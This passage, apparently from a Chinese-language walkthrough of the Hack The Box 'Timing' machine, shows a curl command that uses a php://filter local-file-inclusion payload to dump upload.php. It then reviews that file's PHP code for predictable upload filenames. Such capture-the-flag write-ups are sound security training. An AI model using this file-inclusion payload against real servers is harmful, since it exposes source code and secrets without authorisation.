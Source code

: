 简单的 WebApp 登录

我们在这里结束:

![](img/60994e92ef01adbd8c6942718aa66c1a.png)

以用户 2 身份登录

我们不确定此时成为用户 2 的意义何在，而且一旦登录，您就不能做任何其他事情了。回到我们的 gobuster 输出，我得到了 upload.php 文件:

```
┌──(root💀kali)-[~]
└─# curl 'http://timing.htb/image.php?img=php://filter/convert.base64-encode/resource=upload.php' | base64 -d
```

# 代码审查

浏览代码，很容易看出它做了什么。它获取用户上传的文件，检查它是否有. jpg 扩展名，并将其名称存储在$file_name 中。然后，它通过获取当前时间的 md5 散列值并将其与文件名相结合来创建一个唯一的散列值。然后，它将文件存储在/images/uploads 中。脚本中有一个需要理解的地方，否则你将会试图确定已经创建的文件名。

查看文件的第一部分:

```
<?php
include("admin_auth_check.php");
$upload_dir = "images/uploads/";

if (!file_exists($upload_dir)) {
    mkdir($upload_dir, 0777, true);
}

$file_hash = uniqid();

$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
```
